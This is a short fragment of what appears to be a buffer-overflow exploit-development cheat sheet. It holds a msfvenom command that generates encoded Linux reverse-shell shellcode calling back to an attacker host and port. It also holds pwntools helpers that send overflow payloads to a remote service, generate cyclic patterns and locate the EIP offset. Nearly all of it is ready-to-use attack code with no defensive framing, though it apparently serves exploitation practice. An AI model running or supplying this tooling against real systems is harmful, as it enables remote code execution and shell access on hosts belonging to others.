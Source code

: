 ## 6. Generate shellcode
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip_address> LPORT=<port> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b  "\x00\x0a\x0d"`


# Example functions
```
from pwn import *


def send_payload(payload, ip_addr, port_num, proto="tcp"):
	print("fuzzing PASS with %s bytes" % len(payload))
	conn = remote(ip_addr, port_num, timeout=30, typ=proto)
	conn.recvline()

	print("[+] send OVRFLW")
	conn.sendline(payload)
	conn.recvline()

	# conn.sendline('EXIT')
	conn.close()


def generate_pattern(num):
	pattern = cyclic_metasploit(num)
	return pattern


def find_eip_offset():
	eip = int(raw_input('[?] EIP: '), 16)
	# print(hex(eip))
	offset = cyclic_metasploit_find(eip)
	print('[!] offset: %d' % offset)
	return offset
```
